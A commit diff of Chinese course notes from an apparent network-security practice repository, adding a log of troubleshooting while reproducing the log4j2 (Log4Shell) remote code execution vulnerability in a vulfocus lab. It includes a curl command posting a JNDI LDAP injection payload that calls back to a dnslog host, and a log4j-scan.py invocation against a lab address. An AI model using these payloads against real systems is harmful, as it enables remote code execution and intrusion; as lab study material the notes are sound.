

Before and after one commit to Xuyan-cmd/Network-security-attack-and-defense-practice, a Markdown page: 课程学习笔记.md, the part around the change printed below. Shown: that part at 81% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/课程学习笔记.md
+++ b/课程学习笔记.md
@@ -208,4 +218,75 @@ docker cp 容器名:/demo/demo.jar ./
 
 ## 7.16
 
-开始实验->实验记录
+开始实验->[相关实验记录](./README.md)
+
+### ❌关于实验踩坑和失败记录
+
+### 踩坑一
+
+在安装docker前应该先执行
+
+- ```shell
+  apt-get update
+  apt-get upgrade
+  ```
+
+- 不然可能会报错——“Package 'docker' has no installation candidate”
+
+### 踩坑二
+
+对于log4j2，网上有很多其他人的**漏洞复现过程**记录
+
+如：[log4j2远程代码执行漏洞原理与漏洞复现（基于vulhub）](https://blog.csdn.net/Bossfrank/article/details/130148819)
+
+原理与老师一样，与老师课程视频的操作不同的是，网上找到的复现过程种的DNSlog接受POST请求这个过程是使用**Burpsuite**进行抓包再手动修改payload，在发送POST请求；
+
+而老师的课程视频种是使用**命令行curl**
+
+```shell
+curl -X POST http://192.168.56.108:54307/hello -d 'payload="${jndi:ldap://0o9zuq.dnslog.cn/exp}"'
+```
+
+原理相同都是发送构造好的POST请求包，但是我在执行老师的curl命令时，不知道是因为什么原因，一直报错，如下👇
+
+**Request method ‘POST‘ not supported Method Not Allowed**
+
+```
+{"timestamp":"2023-07-22T09:29:59.402+00:00","status":404,"error":"Not Found","path":"/hello"}
+```
+
+![image-20230722173010849](IMG/报错.png)
+
+在网上查询了一下报错原因：[(100条消息) Request method ‘POST‘ not supported Method Not Allowed_cy谭的博客-CSDN博客](https://blog.csdn.net/zhan107876/article/details/111595338)
+
+带着这个报错我也在不同的虚拟机和不同电脑的虚拟机进行了实验，也是相同的问题。
+
+我认为应该是搭建的vulfocus现在的版本和docker或者虚拟机的兼容问题，也可能是网络问题，试了一下GET请求是可以正常进行的，返回ok，curl也能成功访问到网站，但是不能用curl命令发送POST请求。
+
+### 踩坑三
+
+执行log4j-scan.py：
+
+```shell
+# 自行替换其中的靶标 URL
+python3 log4j-scan.py --request-type post -u http://192.168.56.108:41510/hello
+```
+
+![image-20230722181121151](IMG/执行py报错.png)
+
+发现报错:
+
+```
+requests.exceptions.ConnectionError: HTTPSConnectionPool(host='interact.sh', port=443): Max retries exceeded with url: /register (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x7f2c429f4310>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution'))
+```
+
+- 经过查询，发现该错误可能是因为：
+
+  - http的连接数超过最大限制，默认的情况下连接是Keep-alive的，所以这就导致了服务器保持了太多连接而不能再新建连接。
+  - 也可能是程序请求速度过快。
+- 在跟**踩坑二**对应看了一下，感觉 报错原因都是与发起POST请求有关，可能还是一个原因
+- 暂时还没有好的解决办法
+
+### 踩坑四
+
+攻破最终靶标5时因为扫描不到192.169.85.2:80 导致得不到最终flag
````
Also changed, not shown: other parts of 课程学习笔记.md (+21 -11 lines), README.md (+36 -11 lines).
